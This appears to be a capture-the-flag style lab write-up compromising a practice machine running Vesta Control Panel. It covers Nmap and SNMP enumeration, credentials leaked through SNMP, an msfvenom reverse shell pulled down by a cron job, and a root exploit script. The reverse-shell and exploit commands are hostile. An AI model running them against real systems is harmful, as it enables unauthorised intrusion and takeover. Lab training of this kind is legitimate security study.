







# FRANKFURT

Writeup for standalone machine hosted at `192.168.xxx.156`.

## Enumeration

Output from Nmap scan [run earlier](./#nmap):


```
Nmap scan report for frankfurt.oscp.exam (192.168.202.156)
Host is up (0.052s latency).
Not shown: 65519 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
| ssl-cert: Subject: commonName=oscp.example.com/organizationName=Vesta Control Panel/stateOrProvinceName=California/countryName=US
| Not valid before: 2022-11-08T08:16:51
|_Not valid after:  2023-11-08T08:16:51
|_ssl-date: TLS randomness does not represent time
22/tcp   open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7e:62:fd:92:52:6f:64:b1:34:48:8d:1e:52:f1:74:c6 (RSA)
|   256 1b:f7:0c:c7:1b:05:12:a9:c5:c5:78:b7:2a:54:d2:83 (ECDSA)
|_  256 ee:d4:a1:1a:07:b4:9f:d9:e5:2d:f6:b8:8d:dd:bf:d7 (ED25519)
25/tcp   open  smtp     Exim smtpd 4.90_1
| smtp-commands: oscp.exam Hello frankfurt.oscp.exam [192.168.45.157], SIZE 52428800, 8BITMIME, PIPELINING, AUTH PLAIN LOGIN, CHUNKING, STARTTLS, HELP
|_ Commands supported: AUTH STARTTLS HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
| ssl-cert: Subject: commonName=oscp.example.com/organizationName=Vesta Control Panel/stateOrProvinceName=California/countryName=US
| Not valid before: 2022-11-08T08:16:51
|_Not valid after:  2023-11-08T08:16:51
|_ssl-date: 2024-09-08T20:22:59+00:00; +33s from scanner time.
53/tcp   open  domain   ISC BIND 9.11.3-1ubuntu1.18 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.18-Ubuntu
80/tcp   open  http     nginx
|_http-title: oscp.exam &mdash; Coming Soon
| http-methods: 
|_  Potentially risky methods: TRACE
110/tcp  open  pop3     Dovecot pop3d
| ssl-cert: Subject: commonName=oscp.example.com/organizationName=Vesta Control Panel/stateOrProvinceName=California/countryName=US
| Not valid before: 2022-11-08T08:16:51
|_Not valid after:  2023-11-08T08:16:51
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: RESP-CODES STLS TOP CAPA AUTH-RESP-CODE SASL(PLAIN LOGIN) UIDL USER PIPELINING
143/tcp  open  imap     Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=oscp.example.com/organizationName=Vesta Control Panel/stateOrProvinceName=California/countryName=US
| Not valid before: 2022-11-08T08:16:51
|_Not valid after:  2023-11-08T08:16:51
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: LOGIN-REFERRALS STARTTLS LITERAL+ AUTH=PLAIN ENABLE post-login IDLE AUTH=LOGINA0001 have SASL-IR more listed capabilities OK ID IMAP4rev1 Pre-login
465/tcp  open  ssl/smtp Exim smtpd 4.90_1
|_ssl-date: 2024-09-08T20:22:13+00:00; -12s from scanner time.
| smtp-commands: oscp.exam Hello frankfurt.oscp.exam [192.168.45.157], SIZE 52428800, 8BITMIME, PIPELINING, AUTH PLAIN LOGIN, CHUNKING, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
| ssl-cert: Subject: commonName=oscp.example.com/organizationName=Vesta Control Panel/stateOrProvinceName=California/countryName=US
| Not valid before: 2022-11-08T08:16:51
|_Not valid after:  2023-11-08T08:16:51
587/tcp  open  smtp     Exim smtpd 4.90_1
| ssl-cert: Subject: commonName=oscp.example.com/organizationName=Vesta Control Panel/stateOrProvinceName=California/countryName=US
| Not valid before: 2022-11-08T08:16:51
|_Not valid after:  2023-11-08T08:16:51
|_ssl-date: 2024-09-08T20:22:30+00:00; +3s from scanner time.
| smtp-commands: oscp.exam Hello frankfurt.oscp.exam [192.168.45.157], SIZE 52428800, 8BITMIME, PIPELINING, AUTH PLAIN LOGIN, CHUNKING, STARTTLS, HELP
|_ Commands supported: AUTH STARTTLS HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=oscp.example.com/organizationName=Vesta Control Panel/stateOrProvinceName=California/countryName=US
| Not valid before: 2022-11-08T08:16:51
|_Not valid after:  2023-11-08T08:16:51
|_imap-capabilities: LOGIN-REFERRALS have SASL-IR more post-login LITERAL+ IMAP4rev1 AUTH=PLAIN listed ENABLE OK IDLE capabilities ID AUTH=LOGINA0001 Pre-login
995/tcp  open  ssl/pop3 Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: CAPA RESP-CODES AUTH-RESP-CODE SASL(PLAIN LOGIN) USER UIDL TOP PIPELINING
| ssl-cert: Subject: commonName=oscp.example.com/organizationName=Vesta Control Panel/stateOrProvinceName=California/countryName=US
| Not valid before: 2022-11-08T08:16:51
|_Not valid after:  2023-11-08T08:16:51
2525/tcp open  smtp     Exim smtpd 4.90_1
| smtp-commands: oscp.exam Hello frankfurt.oscp.exam [192.168.45.157], SIZE 52428800, 8BITMIME, PIPELINING, AUTH PLAIN LOGIN, CHUNKING, STARTTLS, HELP
|_ Commands supported: AUTH STARTTLS HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
|_ssl-date: 2024-09-08T20:22:33+00:00; +6s from scanner time.
| ssl-cert: Subject: commonName=oscp.example.com/organizationName=Vesta Control Panel/stateOrProvinceName=California/countryName=US
| Not valid before: 2022-11-08T08:16:51
|_Not valid after:  2023-11-08T08:16:51
3306/tcp open  mysql    MySQL 5.7.40-0ubuntu0.18.04.1
| ssl-cert: Subject: commonName=MySQL_Server_5.7.40_Auto_Generated_Server_Certificate
| Not valid before: 2022-11-08T08:15:37
|_Not valid after:  2032-11-05T08:15:37
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.40-0ubuntu0.18.04.1
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: InteractiveClient, Speaks41ProtocolNew, SupportsCompression, IgnoreSigpipes, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, ODBCClient, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, LongPassword, Support41Auth, SwitchToSSLAfterHandshake, FoundRows, SupportsTransactions, ConnectWithDatabase, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 6"\x19V3OtiLcsq	1 as\x1D'"
|_  Auth Plugin Name: mysql_native_password
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     Apache httpd 2.4.29 ((Ubuntu) mod_fcgid/2.3.9 OpenSSL/1.1.1)
|_http-server-header: Apache/2.4.29 (Ubuntu) mod_fcgid/2.3.9 OpenSSL/1.1.1
|_http-title: oscp.exam &mdash; Coming Soon
| http-methods: 
|_  Potentially risky methods: TRACE
8083/tcp open  http     nginx
|_http-title: Did not follow redirect to https://frankfurt.oscp.exam:8083/
8443/tcp open  http     Apache httpd 2.4.29 ((Ubuntu) mod_fcgid/2.3.9 OpenSSL/1.1.1)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu) mod_fcgid/2.3.9 OpenSSL/1.1.1
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=9/8%OT=21%CT=1%CU=43296%PV=Y%DS=4%DC=T%G=Y%TM=66DE0
OS:786%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%II=I%TS=A)OPS(O1
OS:=M551ST11NW7%O2=M551ST11NW7%O3=M551NNT11NW7%O4=M551ST11NW7%O5=M551ST11NW
OS:7%O6=M551ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=
OS:Y%DF=Y%T=40%W=7210%O=M551NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%R
OS:D=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=
OS:834E%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: Host: oscp.exam; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 7s, deviation: 18s, median: 2s
```


I don't usually include the UDP output but it is relevant this time:

```
Nmap scan report for frankfurt.oscp.exam (192.168.202.156)
Host is up (0.053s latency).
Not shown: 248 closed udp ports (port-unreach)
PORT    STATE SERVICE VERSION
53/udp  open  domain  ISC BIND 9.11.3-1ubuntu1.18 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.18-Ubuntu
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 93840921de106a6300000000
|   snmpEngineBoots: 15
|_  snmpEngineTime: 2h09m28s
| snmp-interfaces: 
|   lo
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 10 Mbps
|     Traffic stats: 452.44 Kb sent, 452.44 Kb received
|   VMware VMXNET3 Ethernet Controller
|     IP address: 192.168.202.156  Netmask: 255.255.255.0
|     MAC address: 00:50:56:bf:e7:12 (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|_    Traffic stats: 4.08 Mb sent, 5.12 Mb received
| snmp-processes: 
|     ...
| snmp-netstat: 
|   TCP  0.0.0.0:21           0.0.0.0:0
|   TCP  0.0.0.0:22           0.0.0.0:0
|   TCP  0.0.0.0:25           0.0.0.0:0
|   TCP  0.0.0.0:110          0.0.0.0:0
|   TCP  0.0.0.0:143          0.0.0.0:0
|   TCP  0.0.0.0:465          0.0.0.0:0
|   TCP  0.0.0.0:587          0.0.0.0:0
|   TCP  0.0.0.0:993          0.0.0.0:0
|   TCP  0.0.0.0:995          0.0.0.0:0
|   TCP  0.0.0.0:2525         0.0.0.0:0
|   TCP  0.0.0.0:8083         0.0.0.0:0
|   TCP  127.0.0.1:53         0.0.0.0:0
|   TCP  127.0.0.1:783        0.0.0.0:0
|   TCP  127.0.0.1:953        0.0.0.0:0
|   TCP  127.0.0.1:8081       0.0.0.0:0
|   TCP  127.0.0.1:8084       0.0.0.0:0
|   TCP  127.0.0.53:53        0.0.0.0:0
|   TCP  192.168.202.156:53   0.0.0.0:0
|   TCP  192.168.202.156:80   0.0.0.0:0
|   TCP  192.168.202.156:8080 0.0.0.0:0
|   TCP  192.168.202.156:8443 0.0.0.0:0
|   TCP  192.168.202.156:53996 142.132.212.2:443
|   UDP  0.0.0.0:161          *:*
|   UDP  0.0.0.0:33480        *:*
|   UDP  127.0.0.1:53         *:*
|   UDP  127.0.0.53:53        *:*
|_  UDP  192.168.202.156:53   *:*
| snmp-sysdescr: Linux oscp.exam 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
|_  System uptime: 2h09m28.41s (776841 timeticks)
|_snmp-win32-software: ERROR: Script execution failed (use -d to debug)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.18
OS details: Linux 2.6.18, Linux 2.6.30
Network Distance: 4 hops
Service Info: Host: oscp.exam; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 8083

The landing page on port 8083 seems to be a login for the [Vesta Control Panel](https://vestacp.com/):

<figure><figcaption></figcaption></figure>

I try some basic logins but have no success.

### SNMP

I dump the SNMP contents into a file:

```bash
snmpwalk -v2c -c public frankfurt.oscp.exam > v2c.snmp &
```

This takes forever and returns a ton of useless output. As I am looking around I remember [this trick](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp#enumerating-snmp) from HackTricks:


```bash
snmpwalk -v2c -c public 192.168.180.156 NET-SNMP-EXTEND-MIB::nsExtendOutputFull > full.snmp &
```


This time I find something useful (output is actually much smaller than expected so I just reran and captured it on screen):

<figure><figcaption><p>Credentials in SNMP</p></figcaption></figure>

When I try to validate the credentials they seem invalid at first blush but I eventually try them with the username capitalized and it works (screenshot shows `lftp` commands run back-to-back to highlight differences):

<figure><figcaption><p>Credentials are case sensitive</p></figcaption></figure>

After some poking I find that the credentials Jack:3PUKsX98BMupBiCf work on FTP and the Vesta Control Panel on port 8083:

<figure><figcaption><p>Successful login at port 8083</p></figcaption></figure>

## Foothold

After some research I find an authenticated RCE for Vesta Control Panel. The [first one I find](https://www.exploit-db.com/exploits/48294) is a Metasploit module but it does not work.

### Manual Exploitation

Eventually I find [this writeup](https://gitlab.com/-/snippets/1954764) which contains manual exploitation techniques. This works flawlessly. I generate a reverse shell with `msfvenom`:


```bash
msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=192.168.45.157 LPORT=25 -f elf -o rs
```


I then create a CRON job to download and run the shell as seen in the writeup:

<figure><figcaption><p>Manual cron job to download and run shell</p></figcaption></figure>

I launch a listener and wait a minute. I can see the download request in my Apache logs and then I catch the shell:

```bash
nc -lvnp 25
```

<figure><figcaption><p>Shell caught</p></figcaption></figure>

User access achieved as `Jack`.

## Privilege Escalation

### Vesta Control Panel

Eventually I find [this writeup](https://ssd-disclosure.com/ssd-advisory-vestacp-multiple-vulnerabilities/) which explains a privilege escalation vector and has some exploit code. I just copy the code files and run the exploit command:

```bash
python vestaROOT.py https://frankfurt.oscp.exam:8083 Jack 3PUKsX98BMupBiCf
```

This launches a shell as `root`:

<figure><figcaption><p>Root shell</p></figcaption></figure>

`root` access achieved. There is no post-exploit required for standalone exam machines.
